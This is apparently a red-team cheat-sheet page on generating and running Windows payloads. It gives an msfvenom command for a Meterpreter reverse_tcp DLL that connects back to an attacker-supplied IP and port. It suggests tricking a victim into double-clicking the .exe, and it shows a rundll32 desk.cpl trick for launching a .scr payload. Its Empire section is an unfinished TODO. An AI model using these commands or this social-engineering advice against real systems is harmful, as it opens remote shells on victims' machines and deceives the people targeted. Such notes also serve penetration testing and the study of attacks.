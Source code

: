 # EXE Execution

## 01 - Generate Payloads

### 1.1 - `msfvenom`

Generate a DLL payload then execute it with `StartW` entry point.

```
$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -f dll -o payload.dll
```

### 1.2 - Empire

TODO: Fill this info

UseStager

CSharp payload

MSFVenom

## 02 - Execute Payloads

### 2.1 - EXE

> [!TIP] EXE Payloads
> You can actually social engineer the victim to double click the `.exe` to establish connection.

```
C:\> .\payload.exe
```

### 2.2 - SCR

#### 2.2.1 - `desk`

```
C:\> rundll32.exe desk.cpl,InstallScreenSaver C:\path\to\payload.scr
```

---
## References

### LOLBAS

- [LOLBAS: Desk](https://lolbas-project.github.io/lolbas/Libraries/Desk/)

### DMCXBlue

- [DMCXBlue: Attachments - SCR Files](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1566-phishing/phishing-spearphishing-attachment/attachments-scr-files)